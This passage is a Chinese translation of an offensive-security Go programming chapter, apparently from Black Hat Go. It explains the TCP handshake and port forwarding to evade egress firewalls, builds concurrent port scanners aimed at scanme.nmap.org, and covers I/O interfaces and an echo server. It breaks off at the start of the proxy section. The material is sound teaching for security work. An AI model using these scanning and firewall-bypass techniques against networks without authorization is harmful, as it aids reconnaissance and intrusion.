


## TCP、扫描器和代理


让我们开始实践 Go 的应用，使用 *传输控制协议（TCP）*，它是面向连接的、可靠通信的主要标准，也是现代网络的基础。TCP 无处不在，它有着完善的文档、代码示例和通常易于理解的数据包流。你必须理解 TCP，才能全面评估、分析、查询和操作网络流量。

作为攻击者，你应该理解 TCP 的工作原理，并能够开发可用的 TCP 构造，以便识别开放/关闭端口，识别潜在的错误结果，如误报——例如，syn-flood 保护——并通过端口转发绕过出口限制。在本章中，你将学习 Go 中的基本 TCP 通信；构建一个并发的、适当限速的端口扫描器；创建一个可以用于端口转发的 TCP 代理；并重现 Netcat 的“漏洞”特性。

已经有整本书专门讨论 TCP 的每个细节，包括数据包结构和流、可靠性、通信重组等。这样的细节超出了本书的范围。如需更多信息，建议阅读 Charles M. Kozierok 的 *TCP/IP 指南*（No Starch Press，2005）。

### 理解 TCP 握手

对于那些需要复习的人，让我们回顾一下基础知识。图 2-1 展示了 TCP 在查询端口时使用握手过程，以确定端口是开放的、关闭的还是被过滤的。



*图 2-1：TCP 握手基础*

如果端口是开放的，则会进行三次握手。首先，客户端发送一个 *syn 数据包*，表示通信的开始。然后，服务器会用 *syn-ack* 响应，确认收到 syn 数据包，并促使客户端发送 *ack*，即确认服务器的回应。数据传输可以开始。如果端口是关闭的，服务器会用 *rst* 数据包代替 syn-ack 响应。如果流量被防火墙过滤，客户端通常不会收到来自服务器的任何响应。

在编写基于网络的工具时，理解这些响应非常重要。将工具的输出与这些低层数据包流相关联将帮助你验证是否已正确建立网络连接，并排查潜在问题。正如你将在本章后面看到的那样，如果你未能完成完整的客户端-服务器 TCP 连接握手，就容易在代码中引入 bug，从而导致不准确或误导的结果。

### 通过端口转发绕过防火墙

人们可以配置防火墙以防止客户端连接到某些服务器和端口，同时允许访问其他服务器和端口。在某些情况下，你可以通过使用中介系统将连接代理绕过或穿越防火墙，从而规避这些限制，这种技术称为 *端口转发*。

许多企业网络限制内部资产与恶意网站建立 HTTP 连接。以此为例，假设有一个恶意网站叫做 *evil.com*。如果某个员工尝试直接浏览 *evil.com*，防火墙会阻止该请求。然而，如果该员工拥有一个可以通过防火墙的外部系统（例如 *[stacktitan.com](http://stacktitan.com)*），那么该员工可以利用允许的域名将连接转发到 *evil.com*。图 2-2 展示了这一概念。



*图 2-1：TCP 代理*

客户端通过防火墙连接到目标主机 *[stacktitan.com](http://stacktitan.com)*。该主机配置为将连接转发到主机 *evil.com*。虽然防火墙禁止直接连接到 *evil.com*，但像这里展示的配置可以允许客户端绕过这个保护机制，访问 *evil.com*。

您可以使用端口转发来利用多个受限的网络配置。例如，您可以通过跳板机转发流量，访问分段网络或访问绑定到受限接口的端口。

### 编写一个 TCP 扫描器

一种有效的方式来概念化 TCP 端口的交互是实现一个端口扫描器。通过编写端口扫描器，您将观察到 TCP 握手中发生的步骤，以及遇到的状态变化的影响，从而帮助您确定 TCP 端口是否可用，或者它是否响应关闭或过滤状态。

一旦您编写了一个基本的扫描器，您将编写一个更快的扫描器。一个端口扫描器可以通过使用单一的连续方法来扫描多个端口；然而，当您的目标是扫描所有 65,535 个端口时，这可能会变得非常耗时。您将探索如何使用并发性，使一个低效的端口扫描器更适合执行更大的端口扫描任务。

您还可以将本节中学到的并发模式应用于许多其他场景，无论是在本书中还是在其他地方。

#### 测试端口的可用性

创建端口扫描器的第一步是理解如何从客户端发起到服务器的连接。在本例中，您将连接并扫描*Nmap 项目*提供的服务 *[scanme.nmap.org](http://scanme.nmap.org)*。^(1) 为此，您将使用 Go 的`net`包：`net.Dial(`network`,` address string`)`。

第一个参数是一个字符串，用来标识要发起的连接类型。因为`Dial`不仅仅用于 TCP，它还可以用于创建使用 Unix 套接字、UDP 以及只存在于你脑海中的第四层协议的连接（作者曾走过这条路，可以说，TCP 非常好）。您可以提供几个字符串，但为了简洁起见，您将使用字符串`tcp`。

第二个参数告诉 `Dial(`network`,` address string`)` 你希望连接的主机。请注意，它是一个单一的字符串，而不是 `string` 和 `int`。对于 IPv4/TCP 连接，这个字符串的格式应该是 `host:port`。例如，如果你想连接到 *[scanme.nmap.org](http://scanme.nmap.org)* 上的 TCP 80 端口，你需要提供 `scanme.nmap.org:80`。

现在你知道如何创建连接，但如何知道连接是否成功呢？你可以通过错误检查来实现：`Dial(`network`,` address string`)` 会返回 `Conn` 和 `error`，如果连接成功，`error` 将为 `nil`。因此，要验证连接是否成功，你只需检查 `error` 是否等于 `nil`。

现在你已经具备了构建一个单端口扫描器所需的所有元素，尽管它不太礼貌。清单 2-1 显示了如何将它们组合在一起。（所有位于根目录的代码清单都可以在提供的 GitHub 仓库 *[`github.com/blackhat-go/bhg/`](https://github.com/blackhat-go/bhg/)* 中找到。）

```
package main

import (
    "fmt"
    "net"
)

func main() {
    _, err := net.Dial("tcp", "scanme.nmap.org:80")
 if err == nil {
        fmt.Println("Connection successful")
    }
}
```

*清单 2-1：一个只扫描一个端口的基本端口扫描器 (*[/ch-2/dial/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-2/dial/main.go)*)*

运行此代码。只要你能够访问互联网，你应该会看到 `连接成功`。

#### 执行非并发扫描

一次只扫描一个端口是没有意义的，当然也不高效。TCP 端口范围从 1 到 65535；但是为了测试，我们扫描 1 到 1024 的端口。为此，你可以使用 `for` 循环：

```
for i:=1; i <= 1024; i++ {
}
```

现在你有了一个 `int` 类型的值，但记住，`Dial(`network`,` address string`)` 的第二个参数需要是一个字符串。将整数转换为字符串至少有两种方法。一种方法是使用字符串转换包 `strconv`。另一种方法是使用 `fmt` 包中的 `Sprintf(`格式字符串，a ...interface`{}``)`，它（类似于 C 语言的实现）会返回从格式字符串生成的 `string`。

创建一个新的文件，并将代码放入清单 2-2，确保你的循环和字符串生成都能正常工作。运行此代码应该会打印 1024 行，但无需强制计算这些行。

```
package main

import (
    "fmt"
)

func main() {
    for i := 1; i <= 1024; i++ {
        address := fmt.Sprintf("scanme.nmap.org:%d", i)
        fmt.Println(address)
    }
}
```

*清单 2-2：扫描 [scanme.nmap.org](http://scanme.nmap.org) 的 1024 个端口 (*[/ch-2/tcp-scanner-slow/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-2/tcp-scanner-slow/main.go)*)*

剩下的就是将前面代码示例中的地址变量传递给 `Dial(`network`,` address string`)`，并实现前一节中的相同错误检查来测试端口可用性。你还应该添加一些逻辑，如果连接成功，就关闭连接；这样就不会留下未关闭的连接。*结束*连接是非常礼貌的。要做到这一点，你需要在 `Conn` 上调用 `Close()`。清单 2-3 显示了完整的端口扫描器。

```
package main

import (
    "fmt"
    "net"
)

func main() {
    for i := 1; i <= 1024; i++ {
        address := fmt.Sprintf("scanme.nmap.org:%d", i)
        conn, err := net.Dial("tcp", address)
        if err != nil {
            // port is closed or filtered.
            continue
        }
        conn.Close()
        fmt.Printf("%d open\n", i)
    }
}
```

*清单 2-3：完成的端口扫描器 (*[/ch-2/tcp-scanner-slow/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-2/tcp-scanner-slow/main.go)*)*

编译并执行此代码，以对目标进行轻量级扫描。您应该会看到几个开放的端口。

#### 执行并发扫描

之前的扫描器一次性扫描多个端口（这是一种双关语）。但现在您的目标是并发扫描多个端口，这将使您的端口扫描器更快。为此，您将利用 goroutine 的强大功能。Go 允许您根据系统的承载能力创建任意数量的 goroutine，唯一的限制是可用的内存。

##### “太快”扫描器版本

创建一个并发运行的端口扫描器最简单的方法是将 `Dial(`network`,` address string`)` 的调用封装在一个 goroutine 中。为了从自然后果中学习，创建一个名为 *scan-too-fast.go* 的新文件，包含 清单 2-4 中的代码并执行它。

```
package main

import (
    "fmt"
    "net"
)

func main() {
    for i := 1; i <= 1024; i++ {
        go func(j int) {
            address := fmt.Sprintf("scanme.nmap.org:%d", j)
            conn, err := net.Dial("tcp", address)
 if err != nil {
                return
            }
            conn.Close()
            fmt.Printf("%d open\n", j)
        }(i)
    }
}
```

*清单 2-4：一个运行太快的扫描器 (*[/ch-2/tcp-scanner-too-fast/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-2/tcp-scanner-too-fast/main.go)*)*

运行此代码后，您应该会看到程序几乎立即退出：

```
$ time ./tcp-scanner-too-fast
./tcp-scanner-too-fast  0.00s user 0.00s system 90% cpu 0.004 total
```

您刚刚运行的代码为每个连接启动一个 goroutine，而主 goroutine 并不知道需要等待连接完成。因此，代码会在 `for` 循环完成其迭代后立即结束并退出，这可能比代码与目标端口之间的网络数据包交换还要快。对于那些数据包仍在传输中的端口，您可能无法获得准确的结果。

有几种方法可以解决这个问题。一种方法是使用来自 `sync` 包的 `WaitGroup`，它是一种线程安全的方式来控制并发。`WaitGroup` 是一个结构体类型，可以像这样创建：

```
var wg sync.WaitGroup
```

一旦创建了 `WaitGroup`，您可以在该结构体上调用几个方法。第一个是 `Add(`int`)`，它会根据提供的数字增加一个内部计数器。接下来，`Done()` 会将计数器减一。最后，`Wait()` 会阻塞它所在 goroutine 的执行，并且在内部计数器为零之前不会允许继续执行。您可以将这些调用组合起来，确保主 goroutine 等待所有连接完成。

##### 使用 WaitGroup 进行同步扫描

清单 2-5 展示了同一个端口扫描程序，但采用了不同的 goroutine 实现。

```
package main

import (
    "fmt"
    "net"
    "sync"
)
func main() {
 ❶ var wg sync.WaitGroup
    for i := 1; i <= 1024; i++ {
     ❷ wg.Add(1)
        go func(j int) {
         ❸ defer wg.Done()
            address := fmt.Sprintf("scanme.nmap.org:%d", j)
            conn, err := net.Dial("tcp", address)
            if err != nil {
                return
            }
            conn.Close()
            fmt.Printf("%d open\n", j)
        }(i)
    }
 ❹ wg.Wait()
}
```

*清单 2-5：一个使用 `WaitGroup` 的同步扫描器 (*[/ch-2/tcp-scanner-wg-too-fast/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-2/tcp-scanner-wg-too-fast/main.go)*)*

这次的代码迭代基本上与最初的版本相同。不过，你添加了显式跟踪剩余工作的代码。在这个程序版本中，你创建了`sync.WaitGroup` ❶，它充当一个同步计数器。每当你创建一个 goroutine 来扫描端口时，使用`wg.Add(1)`增加计数器 ❷，而通过延迟调用`wg.Done()`在每个工作项完成时减少计数器 ❸。你的`main()`函数调用`wg.Wait()`，它会阻塞，直到所有工作完成并且计数器归零 ❹。

这个版本的程序更好，但仍然存在问题。如果你多次运行它，针对多个主机进行扫描，你可能会看到不一致的结果。过多的主机或端口同时扫描可能会导致网络或系统的限制影响结果。你可以将代码中的`1024`改为 65535，并将目标服务器设置为本地地址 127.0.0.1。如果你愿意，可以使用 Wireshark 或 tcpdump 来查看连接的开启速度。

##### 使用工作池进行端口扫描

为了避免不一致，你将使用一池 goroutines 来管理正在执行的并发工作。通过使用`for`循环，你将创建一定数量的工作线程作为资源池。然后，在你的`main()`“线程”中，你将使用一个通道提供工作。

首先，创建一个新的程序，其中包含 100 个工作线程，使用一个`int`类型的通道，并将数据打印到屏幕上。你仍然会使用`WaitGroup`来阻塞执行。为`main`函数创建初始的代码框架。在它的上方，编写清单 2-6 中显示的函数。

```
func worker(ports chan int, wg *sync.WaitGroup) {
    for p := range ports {
        fmt.Println(p)
        wg.Done()
    }
}
```

*清单 2-6：用于处理工作的工作函数*

`worker(int, *sync.WaitGroup)`函数接受两个参数：一个`int`类型的通道和一个指向`WaitGroup`的指针。该通道将用于接收工作，而`WaitGroup`将用于跟踪单个工作项是否已完成。

接下来，添加你的`main()`函数，如清单 2-7 中所示，它将管理工作负载并向`worker(int, *sync.WaitGroup)`函数提供工作。

```
package main

import (
    "fmt"
    "sync"
)

func worker(ports chan int, wg *sync.WaitGroup) {
 ❶ for p := range ports {
        fmt.Println(p)
        wg.Done()
    }
}

func main() {
    ports := make❷(chan int, 100)
    var wg sync.WaitGroup
 ❸ for i := 0; i < cap(ports); i++ {
        go worker(ports, &wg)
    }
    for i := 1; i <= 1024; i++ {
        wg.Add(1)
     ❹ ports <- i
    }
    wg.Wait()
 ❺ close(ports)
}
```

*清单 2-7：一个基本的工作池 (*[/ch-2/tcp-sync-scanner/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-2/tcp-sync-scanner/main.go)*)*

首先，你使用`make()`创建一个通道 ❷。第二个参数是`int`类型的值`100`，它被提供给`make()`。这使得通道成为*有缓冲的*，这意味着你可以向其中发送数据项，而无需等待接收者读取该数据项。有缓冲的通道非常适合用于维护和追踪多个生产者和消费者的工作。你将通道限制为 100，这意味着它可以在发送者阻塞之前最多容纳 100 个项目。这会略微提高性能，因为它会让所有工作线程立即开始。

接下来，你使用`for`循环❸启动所需数量的工作线程——在这个例子中是 100 个。在`worker(int, *sync.WaitGroup)`函数中，你使用`range`❶不断地从`ports`通道接收数据，循环直到通道关闭。注意，此时你在工作线程中还没有做任何工作——这将在稍后完成。你在`main()`函数中顺序遍历端口，向`ports`通道❹发送端口信息到工作线程。所有工作完成后，你关闭通道❺。

一旦你构建并执行这个程序，你将看到屏幕上打印出数字。你可能会注意到一些有趣的地方：这些数字并没有按特定顺序打印出来。欢迎来到并行处理的奇妙世界。

##### 多通道通信

为了完成端口扫描器，你可以插入你在本节前面写的代码，它将正常工作。然而，打印出来的端口将是无序的，因为扫描器不会按顺序检查它们。为了解决这个问题，你需要使用一个单独的线程将端口扫描的结果传回主线程，以便在打印之前对端口进行排序。这个修改的另一个好处是，你可以完全去除`WaitGroup`的依赖，因为你将有另一种方法来跟踪任务完成情况。例如，如果你扫描 1024 个端口，你将会向工作线程通道发送 1024 次数据，并且你需要将这些工作结果发送回主线程 1024 次。因为发送的工作单位数和接收的结果数是相同的，所以你的程序能够知道何时关闭通道并最终关闭工作线程。

这个修改在清单 2-8 中进行了演示，它完成了端口扫描器的功能。

```
   package main

   import (
       "fmt"
       "net"
       "sort"
   )

❶ func worker(ports, results chan int) {
       for p := range ports {
           address := fmt.Sprintf("scanme.nmap.org:%d", p)
           conn, err := net.Dial("tcp", address)
           if err != nil {
            ❷ results <- 0
               continue
           }
           conn.Close()
        ❸ results <- p
       }
   }
   func main() {
       ports := make(chan int, 100)
    ❹ results := make(chan int)
    ❺ var openports []int

       for i := 0; i < cap(ports); i++ {
           go worker(ports, results)
       }

    ❻ go func() {
          for i := 1; i <= 1024; i++ {
              ports <- i
           }
       }()

    ❼ for i := 0; i < 1024; i++ {
           port := <-results
           if port != 0 {
               openports = append(openports, port)
           }
       }

       close(ports)
       close(results)
    ❽ sort.Ints(openports)
       for _, port := range openports {
           fmt.Printf("%d open\n", port)
    }
}
```

*清单 2-8: 使用多个通道进行端口扫描 (*[/ch-2/tcp-scanner-final/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-2/tcp-scanner-final/main.go)*)*

`worker(ports, results chan int)`函数已被修改为接受两个通道❶；其余的逻辑大体相同，只是当端口关闭时，你会发送一个零❷，而如果端口是打开的，则会发送该端口❸。此外，你还创建了一个单独的通道来将结果从工作线程传递到主线程❹。然后，你使用一个切片❺来存储结果，以便稍后排序。接下来，你需要在一个单独的 goroutine❻中发送数据到工作线程，因为结果收集循环需要在超过 100 项工作继续之前开始。

结果收集循环❼从`results`通道接收 1024 次。如果端口不等于 0，它将被追加到切片中。关闭通道后，你将使用`sort`❽来对打开的端口切片进行排序。剩下的就是遍历切片并将打开的端口打印到屏幕上。

就这样：一个高效的端口扫描器。花点时间玩玩代码——特别是工作进程的数量。数量越多，程序的执行速度应该越快。但是，如果你添加太多工作进程，结果可能会变得不可靠。当你为他人编写工具时，最好使用一个健康的默认值，优先考虑可靠性而非速度。然而，你也应该允许用户提供工作进程的数量作为选项。

你可以对这个程序做一些改进。首先，你在每扫描一个端口时都会通过`results`通道发送数据，而这并非必要。另一种方法需要稍微复杂一些的代码，它使用一个额外的通道，不仅用于追踪工作进程，还能通过确保所有结果完成来防止竞态条件。由于这是一个入门章节，我们故意将这一部分省略了；不过不用担心！我们将在第三章介绍这一模式。其次，你可能希望扫描器能够解析端口字符串——例如，`80,443,8080,21-25`，像 Nmap 可以传递的那样。如果你想看到这个的实现，请参考 [*https://github.com/blackhat-go/bhg/blob/master/ch-2/scanner-port-format/*](https://github.com/blackhat-go/bhg/blob/master/ch-2/scanner-port-format/)。我们将这部分留给你作为练习来探索。

### 构建 TCP 代理

你可以通过使用 Go 内建的 `net` 包来实现所有基于 TCP 的通信。上一节主要从客户端的角度使用 `net` 包，而本节将使用它来创建 TCP 服务器并传输数据。你将从构建必需的*回声服务器*开始——一个只是简单地将给定响应返回给客户端的服务器——接着是两个更具普遍适用性的程序：一个 TCP 端口转发器和一个重新创建 Netcat “安全漏洞”以执行远程命令的程序。

#### 使用 io.Reader 和 io.Writer

为了创建本节中的示例，你需要使用两个在所有输入/输出（I/O）任务中至关重要的类型，无论你是在使用 TCP、HTTP、文件系统，还是其他任何方式：`io.Reader` 和 `io.Writer`。这两个类型是 Go 内建的 `io` 包的一部分，作为数据传输（无论是本地的还是网络的）基础。Go 文档中对这两个类型的定义如下：

```
type Reader interface {
    Read(p []byte) (n int, err error)
}
type Writer interface {
    Write(p []byte) (n int, err error)
}
```

这两种类型都被定义为接口，这意味着它们不能直接实例化。每种类型都包含一个导出函数的定义：`Read` 或 `Write`。正如在第一章中解释的，你可以将这些函数看作是抽象方法，必须在类型中实现，才能让该类型被视为`Reader`或`Writer`。例如，下面这个人为构造的类型就满足这个契约，可以在任何接受`Reader`的地方使用：

```
type FooReader struct {}
func (fooReader *FooReader) Read(p []byte) (int, error) {
    // Read some data from somewhere, anywhere.
 return len(dataReadFromSomewhere), nil
}
```

这个相同的思想适用于`Writer`接口：

```
type FooWriter struct {}
func (fooWriter *FooWriter) Write(p []byte) (int, error) {
    // Write data somewhere.
    return len(dataWrittenSomewhere), nil
}
```

让我们利用这些知识创建一些半可用的东西：一个自定义的 `Reader` 和 `Writer`，它们封装了 stdin 和 stdout。这个代码有些牵强，因为 Go 的 `os.Stdin` 和 `os.Stdout` 类型已经作为 `Reader` 和 `Writer` 使用，但如果你不时地重新发明轮子，你就什么也学不到，不是吗？

清单 2-9 显示了完整的实现，接下来是解释。

```
   package main

   import (
       "fmt"
       "log"
       "os"
   )

   // FooReader defines an io.Reader to read from stdin.
❶ type FooReader struct{}

   // Read reads data from stdin.
❷ func (fooReader *FooReader) Read(b []byte) (int, error) {
       fmt.Print("in > ")
       return os.Stdin.Read(b)❸
   }

   // FooWriter defines an io.Writer to write to Stdout.
❹ type FooWriter struct{}

   // Write writes data to Stdout.
❺ func (fooWriter *FooWriter) Write(b []byte) (int, error) {
       fmt.Print("out> ")
       return os.Stdout.Write(b)❻
   }

   func main() {
       // Instantiate reader and writer.
       var (
           reader FooReader
           writer FooWriter
       )

       // Create buffer to hold input/output.
    ❼ input := make([]byte, 4096)
 // Use reader to read input.
       s, err := reader.Read(input)❽
       if err != nil {
           log.Fatalln("Unable to read data")
       }
       fmt.Printf("Read %d bytes from stdin\n", s)

       // Use writer to write output.
       s, err = writer.Write(input)❾
       if err != nil {
           log.Fatalln("Unable to write data")
       }
       fmt.Printf("Wrote %d bytes to stdout\n", s)
}
```

*清单 2-9：`reader` 和 `writer` 演示 (*[/ch-2/io-example/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-2/io-example/main.go)*)*

代码定义了两种自定义类型：`FooReader` ❶ 和 `FooWriter` ❹。在每种类型上，您为 `FooReader` 定义了 `Read([]byte)` 函数的具体实现 ❷，为 `FooWriter` 定义了 `Write([]byte)` 函数的具体实现 ❺。在本例中，两个函数都从 stdin 读取数据 ❸，并将数据写入 stdout ❻。

请注意，`FooReader` 和 `os.Stdin` 上的 `Read` 函数返回数据的长度以及任何错误。数据本身会被复制到传递给函数的 `byte` 切片中。这与本节前面提供的 `Reader` 接口原型定义是一致的。`main()` 函数创建了该切片（名为 `input`）❼，然后在调用 `FooReader.Read([]byte)` ❽ 和 `FooReader.Write([]byte)` ❾ 时使用它。

程序的示例运行结果如下：

```
$ go run main.go
in > hello world!!!
Read 15 bytes from stdin
out> hello world!!!
Wrote 4096 bytes to stdout
```

从 `Reader` 复制数据到 `Writer` 是一种相当常见的模式——以至于 Go 的 `io` 包中包含了一个 `Copy()` 函数，可以用来简化 `main()` 函数。函数原型如下所示：

```
func Copy(dst io.Writer, src io.Reader) (written int64, error)
```

这个便捷函数使您能够实现与之前相同的编程行为，将您的 `main()` 函数替换为 清单 2-10 中的代码。

```
func main() {
    var (
        reader FooReader
        writer FooWriter
    )
 if _, err := io.Copy(&writer, &reader)❶; err != nil {
        log.Fatalln("Unable to read/write data")
    }
}
```

*清单 2-10：使用 io.Copy (*[/ch-2/copy-example/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-2/copy-example/main.go)*)*

请注意，显式调用 `reader.Read([]byte)` 和 `writer.Write([]byte)` 已经被一个对 `io.Copy(writer, reader)` 的调用所替代 ❶。在幕后，`io.Copy(writer, reader)` 会调用提供的 reader 上的 `Read([]byte)` 函数，从而触发 `FooReader` 从 stdin 读取数据。随后，`io.Copy(writer, reader)` 会调用提供的 writer 上的 `Write([]byte)` 函数，从而调用您的 `FooWriter`，并将数据写入 stdout。本质上，`io.Copy(writer, reader)` 处理了顺序的读取然后写入过程，而无需处理所有的细节。

本介绍性部分绝不是 Go 的 I/O 和接口的全面概述。作为 Go 标准包的一部分，存在许多方便的函数和自定义的读取器与写入器。在大多数情况下，Go 的标准包包含了实现最常见任务的所有基本功能。在下一节中，我们将探讨如何将这些基础应用到 TCP 通信中，并最终利用这些能力开发实际可用的工具。

#### 创建 Echo 服务器

像大多数语言一样，通常你会从构建一个回显服务器开始，学习如何读取和写入数据到套接字。为此，你将使用 Go 的流式网络连接 `net.Conn`，我们在构建端口扫描器时曾介绍过。根据 Go 对数据类型的文档，`Conn` 实现了 `Read([]byte)` 和 `Write([]byte)` 函数，这些函数是为 `Reader` 和 `Writer` 接口定义的。因此，`Conn` 既是一个 `Reader` 也是一个 `Writer`（是的，这是可能的）。这在逻辑上是合理的，因为 TCP 连接是双向的，可以用来发送（写入）或接收（读取）数据。

创建了 `Conn` 实例后，你将能够通过 TCP 套接字发送和接收数据。然而，TCP 服务器不能简单地制造一个连接；必须由客户端来建立连接。在 Go 中，你可以使用 `net.Listen(`network`, `address string`)` 来首先在特定端口上打开一个 TCP 监听器。一旦客户端连接，`Accept()` 方法会创建并返回一个 `Conn` 对象，你可以用它来接收和发送数据。

清单 2-11 显示了一个完整的服务器实现示例。我们已经在线内添加了注释以便理解。无需担心完全理解代码，因为我们稍后会详细解析。

```
package main

import (
    "log"
    "net"
)

// echo is a handler function that simply echoes received data.
func echo(conn net.Conn) {
    defer conn.Close()

    // Create a buffer to store received data.
    b := make([]byte, 512)
 ❶ for {
        // Receive data via conn.Read into a buffer.
        size, err := conn.Read❷(b[0:])
        if err == io.EOF {
            log.Println("Client disconnected")
            break
        }
        if err != nil {
            log.Println("Unexpected error")
            break
        }
        log.Printf("Received %d bytes: %s\n", size, string(b))

        // Send data via conn.Write.
        log.Println("Writing data")
        if _, err := conn.Write❸(b[0:size]); err != nil {
            log.Fatalln("Unable to write data")
        }
    }
}

func main() {
    // Bind to TCP port 20080 on all interfaces.
 ❹ listener, err := net.Listen("tcp", ":20080")
    if err != nil {
        log.Fatalln("Unable to bind to port")
    }
    log.Println("Listening on 0.0.0.0:20080")
 ❺ for {
        // Wait for connection. Create net.Conn on connection established.
     ❻ conn, err := listener.Accept()
        log.Println("Received connection")
        if err != nil {
            log.Fatalln("Unable to accept connection")
        }
        // Handle the connection. Using goroutine for concurrency.
     ❼ go echo(conn)
    }
}
```

*清单 2-11：一个基础的回显服务器 (*[/ch-2/echo-server/main.go](https://gihub.com/blackhat-go/bhg/blob/master/ch-2/echo-server/main.go)*)*

清单 2-11 首先定义了一个名为 `echo(net.Conn)` 的函数，该函数接受一个 `Conn` 实例作为参数。它充当连接处理程序，执行所有必要的 I/O 操作。该函数无限循环 ❶，使用缓冲区读取 ❷ 和写入 ❸ 数据到连接中。数据被读取到一个名为 `b` 的变量中，并随后写回到连接上。

现在你需要设置一个监听器来调用你的处理程序。如前所述，服务器不能制造连接，必须监听客户端连接。因此，通过使用 `net.Listen(`network`, `address string`)` 函数 ❹，在所有接口上启动一个绑定到 20080 端口的 `tcp` 监听器。

接下来，一个无限循环 ❺ 确保即使在接收到一个连接后，服务器仍会继续监听连接。在这个循环中，你会调用 `listener.Accept()` ❻，这是一个会阻塞执行的函数，直到等待客户端连接。当客户端连接时，该函数返回一个 `Conn` 实例。回想一下我们在本节之前的讨论，`Conn` 既是一个 `Reader` 也是一个 `Writer`（它实现了 `Read([]byte)` 和 `Write([]byte)` 接口方法）。

然后，`Conn` 实例被传递给 `echo(net.Conn)` 处理程序函数 ❼。该调用前加上了 `go` 关键字，变成了并发调用，这样其他连接在等待处理程序函数完成时不会被阻塞。对于如此简单的服务器来说，这可能有些过度，但我们还是再次包含它，目的是展示 Go 并发模式的简便性，以防之前没有说明清楚。此时，你有两个轻量级线程并发运行：

+   主线程会回到并阻塞在`listener.Accept()`上，等待另一个连接。

+   处理程序 goroutine 的执行已转移到 `echo(net.Conn)` 函数，接下来开始运行，处理数据。

以下是一个使用 Telnet 作为连接客户端的示例：

```
$ telnet localhost 20080
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
test of the echo server
test of the echo server
```

服务器产生以下标准输出：

```
$ go run main.go
2020/01/01 06:22:09 Listening on 0.0.0.0:20080
2020/01/01 06:22:14 Received connection
2020/01/01 06:22:18 Received 25 bytes: test of the echo server
2020/01/01 06:22:18 Writing data
```

革命性吧？一个服务器能够将客户端发送到服务器的内容完全回传给客户端。多么有用又令人兴奋的示例！现在真是活得好时光。

#### 通过创建缓冲监听器改进代码

Listing 2-11 中的示例完全可以正常工作，但它依赖于相当底层的函数调用、缓冲区跟踪和迭代读写。这是一个相当繁琐且容易出错的过程。幸运的是，Go 还包含其他可以简化此过程并减少代码复杂性的包。具体来说，`bufio` 包将 `Reader` 和 `Writer` 封装在一起，创建了一个缓冲 I/O 机制。更新后的 `echo(net.Conn)` 函数在此详细介绍，下面是对这些变化的解释：

```
func echo(conn net.Conn) {
    defer conn.Close()

 ❶ reader := bufio.NewReader(conn)
    s, err := reader.ReadString('\n')❷
    if err != nil {
        log.Fatalln("Unable to read data")
    }
    log.Printf("Read %d bytes: %s", len(s), s)

    log.Println("Writing data")
 ❸ writer := bufio.NewWriter(conn)
    if _, err := writer.WriteString(s)❹; err != nil {
        log.Fatalln("Unable to write data")
    }
 ❺ writer.Flush()
}
```

你不再直接调用 `Read([]byte)` 和 `Write([]byte)` 函数在 `Conn` 实例上；相反，你通过 `NewReader(io.Reader)` ❶ 和 `NewWriter(io.Writer)` ❸ 初始化一个新的缓冲 `Reader` 和 `Writer`。这两个调用都接受一个现有的 `Reader` 和 `Writer` 作为参数（记住，`Conn` 类型实现了必要的函数，因此可以被视为既是 `Reader` 又是 `Writer`）。

两个缓冲实例都包含用于读取和写入字符串数据的互补函数。`ReadString(byte)` ❷ 使用一个分隔符字符来表示读取到何处，而 `WriteString(byte)` ❹ 则将字符串写入套接字。写入数据时，你需要显式调用 `writer.Flush()` ❺ 来刷新并将所有数据写入到底层写入器（在此案例中为 `Conn` 实例）。

尽管前一个示例通过使用缓冲 I/O 简化了过程，但你可以重新构建它，使用 `Copy(Writer, Reader)` 便利函数。回想一下，这个函数接受目标 `Writer` 和源 `Reader` 作为输入，简单地从源复制到目标。

在这个示例中，你会将 `conn` 变量作为源和目标传递，因为你将通过已建立的连接将内容回显：

```
func echo(conn net.Conn) {
    defer conn.Close()
    // Copy data from io.Reader to io.Writer via io.Copy().
    if _, err := io.Copy(conn, conn); err != nil {
        log.Fatalln("Unable to read/write data")
    }
}
```

你已经探索了 I/O 的基础并将其应用于 TCP 服务器。现在是时候转向更实用、相关的示例了。

#### 代理 TCP 客户端

现在你已经打下了坚实的基础，你可以将到目前为止学到的内容应用起来，创建一个简单的端口转发器，通过中介服务或主机代理连接。如本章前面提到的，这对于尝试绕过限制性出口控制或利用系统来绕过网络分段非常有用。

